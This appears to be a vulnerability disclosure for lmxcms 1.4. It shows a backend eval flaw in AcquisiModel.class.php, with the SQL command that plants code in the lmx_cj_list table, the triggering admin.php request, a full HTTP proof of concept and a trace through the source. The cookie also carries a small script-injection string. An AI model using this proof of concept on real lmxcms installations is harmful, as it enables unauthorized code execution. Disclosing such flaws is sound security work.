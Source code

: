 Code execution vulnerability in lmxcms v 1.4 backend via AcquisiModel.class.php file

Demonstration of the vulnerability

Go to the backend and click on the sql command execution module to insert a malicious command into the array segment of the lmx_cj_list table in the database lmxcms.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240829223833476.png)

The commands are as follows:

```sql
UPDATE `lmxcms`.`lmx_cj_list` SET `array` = 'phpinfo()' WHERE `lid` = 1;
```

Then get passes the parameter to make the method call

```
?m=Acquisi&a=testcj&lid=1
```

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240829224359635.png)

poc as follows：

```
GET /admin.php?m=Acquisi&a=testcj&lid=1 HTTP/1.1
Host: lmxcms:98
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: Phpstorm-9dbbfc29=4d9b54b0-3f53-4e67-ae29-a3fb9f021bbb; user=admin; name=aa%3Cscript%3Ealert%28111%29%3C%2Fscript%3E; mail=86226999%40qq.com; url=http%3A%2F%2F127.0.0.1; PHPSESSID=k5830lq3ng098vs3hakk99sho3; XDEBUG_SESSION=19501
Referer: http://localhost:98/admin.php?m=login&a=login
Priority: u=0, i
```

code analysis

In the fromatData() method of the AcquisiModel.class.php file, there is an eval function and variable control to get the array index value of the array parameter.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240829224612246.png)

 The caijiData() method makes a call to fromatData(), and `$data[0]` is the data obtained by querying the table lmx_ci_list against the lid.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240829224823728.png)

Continuing to explore the source, I found that testcj() makes another call to caijiData().

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240829225121120.png)

So visit /admin.php and make a call to the testcj() method and pass in the value of the corresponding array segment which is the lid value of the malicious code, i.e. the lid value corresponding to the malicious code inserted into the database at the top.

```
?m=Acquisi&a=testcj&lid=1
```

